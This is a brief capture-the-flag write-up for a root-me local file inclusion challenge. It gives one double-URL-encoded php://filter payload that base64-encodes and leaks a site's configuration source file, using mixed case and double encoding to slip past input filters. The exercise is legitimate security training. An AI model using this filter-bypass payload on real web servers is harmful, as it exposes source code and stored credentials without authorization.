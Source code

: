 # Local file inclusion: double encoding

[root-me challenge: Local File Inclusion - Double encoding](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding): Find the validation password in the source files of the website.

----

Using [HackTricks File inclusion encoding](https://book.hacktricks.xyz/pentesting-web/file-inclusion#encoding), [PayloadAllTheThings: LFI / RFI using wrappers
Wrapper -> php://filter](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter), and cyberchef:

```text
page=pHp%253A%252F%252FFilTer%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf
```
